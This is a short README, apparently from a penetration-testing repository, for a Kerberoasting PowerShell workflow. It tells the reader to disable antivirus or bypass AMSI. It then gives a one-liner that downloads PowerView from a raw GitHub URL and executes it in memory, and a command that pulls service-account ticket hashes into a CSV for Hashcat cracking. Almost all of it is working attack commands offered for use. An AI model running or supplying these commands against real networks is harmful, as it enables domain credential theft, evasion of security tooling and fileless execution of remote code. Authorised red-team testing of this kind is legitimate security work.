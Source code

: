 # Invoke-Kerberoast
PowerShell script to execute Kerberoasting and export samaccountname and hash to CSV.

> IT IS RECOMMENDED TO DISABLE AV OR BYPASS AMSI

#### Download PowerView into Memory
````
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pentestfactory/PowerSploit/dev/Recon/PowerView.ps1');Get-NetDomain;
````

#### Execute Kerberoasting
````
Get-netuser -SPN | Get-DomainSPNTicket -outputformat Hashcat | Select-Object samaccountname,Hash | ConvertTo-Csv -NoTypeInformation | Select-object -skip 1 > kerberoast.csv
````

The resulting `kerberoast.csv` file can then be imported into the Excel from this repository. The PTF column contains the anonymized Kerberoast hash, which can be imported into Hashcat for cracking.
